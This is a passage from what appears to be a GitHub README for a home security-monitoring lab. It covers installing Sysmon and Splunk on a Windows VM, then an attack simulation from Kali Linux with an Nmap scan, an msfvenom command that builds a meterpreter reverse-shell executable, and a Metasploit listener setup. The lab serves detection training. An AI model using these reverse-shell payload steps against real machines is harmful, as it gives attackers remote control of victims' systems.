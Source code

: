 2. Extract the downloaded Sysmon files within the Windows VM.
<br>
<img src="https://i.imgur.com/eYRprN7.png" alt="Basic Home SOC Lab Steps"/>
<br>
3. Open PowerShell as administrator, navigate to the directory where Sysmon was extracted, and use the command to install Sysmon onto the system with the desired configuration.
<br>
<img src="https://i.imgur.com/1WcNCCU.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/fLCFNsO.png" alt="Basic Home SOC Lab Steps"/>
<br>
4. Confirm Sysmon's successful installation by checking the list of running services on the Windows VM.
<br>
<img src="https://i.imgur.com/b3E5X4O.png" alt="Basic Home SOC Lab Steps"/>
<br>
5. Download Splunk Enterprise and proceed with its installation on the Windows VM. After the installation, log into the Splunk web interface via a browser within the Windows VM.
<br>
<img src="https://i.imgur.com/l4kRr6M.png" alt="Basic Home SOC Lab Steps"/>
<br>
<h3> Step 4: Offensive Simulation (Kali Linux VM & Windows 10 VM)</h3>
1. From the Kali Linux machine, use Nmap (e.g., nmap -A [Windows_VM_IP_Address] -Pn) to scan the Windows 10 VM and identify open ports and services.
<br>
<img src="https://i.imgur.com/YTJAUkw.png" alt="Basic Home SOC Lab Steps"/>
<br>
2. Use msfvenom to create a malware payload designed to establish a reverse shell.
<br>
<img src="https://i.imgur.com/OqC0ItW.png" alt="Basic Home SOC Lab Steps"/>
<br>
Identify available payloads using <i>msfvenom --l payloads </i>
<br>
<img src="https://i.imgur.com/PDdvU4u.png" alt="Basic Home SOC Lab Steps"/>
<br>
Select the <i>windows/x64/meterpreter_reverse_tcp</i> payload.
<br>
<img src="https://i.imgur.com/i9se2bg.png" alt="Basic Home SOC Lab Steps"/>
<br>
Construct the malware using a command similar to <i>msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=[Kali_IP] LPORT=[Port] -f exe -o malware.exe </i>, where LHOST is the Kali Linux machine's IP address. 
<br>
<img src="https://i.imgur.com/F7dYAZe.png" alt="Basic Home SOC Lab Steps"/>
<br>
3. Set Up Metasploit Listener. Open <i>msfconsole</i> on the Kali Linux Machine. Configure a multi-handler to listen for the incoming connection by setting the payload type <i>set payload windows/x64/meterpreter_reverse_tcp</i> and the LHOST to the Kali Linux VM's IP Address. Then start the exploit with the command <i>exploit</i> to initiate the listener
<br>
<img src="https://i.imgur.com/bRgFSm1.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/6z0fqr0.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/CpisCKg.png" alt="Basic Home SOC Lab Steps"/>
<br>